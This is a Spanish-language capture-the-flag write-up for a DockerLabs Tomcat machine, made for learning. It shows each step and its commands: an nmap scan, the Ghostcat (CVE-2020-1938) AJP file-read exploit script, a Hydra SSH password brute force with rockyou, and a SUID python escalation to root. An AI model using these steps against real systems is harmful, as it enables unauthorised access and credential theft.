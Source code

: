 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/beb5f8b2-02cf-4757-8f58-b95467733ca2)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 7.9p1 (Debian)
2. **8009/tcp(ajp13):** Apache Jserv
3. **8080/tcp(HTTP):** Apache Tomcat 9.0.30
### Puerto 80
Al identificar que el puerto 8080 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador con el puerto y es una pagina de Apache Tomcat.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/476032a4-99c0-4285-834f-ff5f1f69d16d)

# Fase 2- Exploración

#### Feroxbuster

No encontramos nada interesante.

#### 9.0.30
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0bc8ae97-f93d-4729-8e91-3467bccab9a6)
Vemos que la versión de Tomcat 9.0.30...


![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4ae0602d-f6a2-4840-9773-82d2e0167308)
Encontramos un exploit en GitHub, que permite leer archivos internos.

# Fase 3- Explotación

#### GitHub = Jesus
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/70ca1c99-cf42-456c-ae4e-3f66fc91529e)
```python
python2 CVE-2020-1938.py 172.17.0.2 -p 8009 -f WEB-INF/web.xml
```
Le indicamos la ip, el puerto y el archivo que queremos leer.

```python
Getting resource at ajp13://172.17.0.2:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat, Jerry ;)
  </description>

</web-app>
```
En el archivo vemos un posible usuario `Jerry`.

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6efa09d4-5571-4bfc-ad9f-98a98b845f17)
Encontramos la contraseña del usuario: `chocolate`. Utilizando hydra.
Comando:
```python
sudo hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

# Fase 4- Privilegios

#### find
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/704a0939-57c9-41b3-aee5-ca48eedd151a)
Despues de hacer el tratamiento de la TTY. Vemos que tenemos permisos de python y perl.

#### Python
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fc97a024-cf9f-4c8a-8e7a-596ed731dc4a)
Vemos que para elevar privilegios tenemos que ejecutar el comando:
```python
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5d95d825-48ac-444d-8f90-4ad09eb11b34)
Y somos root!


